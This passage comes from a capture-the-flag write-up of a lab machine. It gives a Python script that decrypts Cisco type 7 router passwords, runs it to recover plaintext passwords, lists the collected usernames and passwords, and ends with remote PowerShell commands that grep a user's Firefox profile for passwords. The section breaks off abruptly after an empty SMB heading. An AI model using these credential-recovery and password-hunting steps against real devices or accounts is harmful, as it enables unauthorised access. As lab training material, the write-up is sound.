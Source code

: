 I wrote a quick `python` script to decrypt it (and there are tons available on the internet):

```

#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)

```

I can get the two from the config:

```

root@kali# ./cisco_de7.py 0242114B0E143F015F5D1E161713
$uperP@ssword
root@kali# ./cisco_de7.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d

```

Two more passwords. I’ve got a list of three passwords, and a list of three user names:

```

root@kali# cat passwords 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
root@kali# cat users 
rout3r
admin
hazard

```

### SMB - TCP 445

#### Initial Enum

I start with the typical `smbmap` call:


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password